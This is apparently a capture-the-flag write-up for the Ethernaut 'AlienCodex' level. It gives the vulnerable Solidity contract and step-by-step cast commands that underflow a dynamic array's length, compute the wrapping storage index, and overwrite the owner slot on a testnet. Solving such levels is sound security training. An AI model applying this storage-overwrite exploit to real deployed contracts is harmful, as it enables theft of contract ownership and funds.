

# Description

You've uncovered an Alien contract. Claim ownership to complete the level.

Things that might help

- Understanding how array storage works
- Understanding ABI specifications
- Using a very underhanded approach

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "../helpers/Ownable-05.sol";

contract AlienCodex is Ownable {
    bool public contact;
    bytes32[] public codex;

    modifier contacted() {
        assert(contact);
        _;
    }

    function makeContact() public {
        contact = true;
    }

    function record(bytes32 _content) public contacted {
        codex.push(_content);
    }

    function retract() public contacted {
        codex.length--;
    }

    function revise(uint256 i, bytes32 _content) public contacted {
        codex[i] = _content;
    }
}
```

# Attack Idea



# Attack Execution

1. call `makeContact()` function to change `contact` to `true`

2. call `retract()` function to underflow the length field 

```bash
tim@tim-virtual-machine ~/g/the-ethernaut (main)> cast storage 0xB9B537c318d36F73cDEf26e4Dd3E1FD3c7618d62 1 --rpc-url $BASE_SEPOLIA_RPC
0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff
```

3. get the address of `codex` for storing `codex[i]`

```
tim@tim-virtual-machine:~/git/the-ethernaut$ cast keccak $(cast to-uint256 1)
0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6
```

4. calculate the offset `y` start from `codex[0]` such that `codex[y]` address = 0

```
>>> x = 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6
>>> y = hex(2**256 - x)
```

...

5. call `revise()` function to overwrite the owner state variable

```
cast send 0xB9B537c318d36F73cDEf26e4Dd3E1FD3c7618d62 "revise(uint256,bytes32)" 0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a 0x000000000000000000000000b1473ba227c4645501e0e05f4839b00ed8320d33 --rpc-url $BASE_SEPOLIA_RPC
```
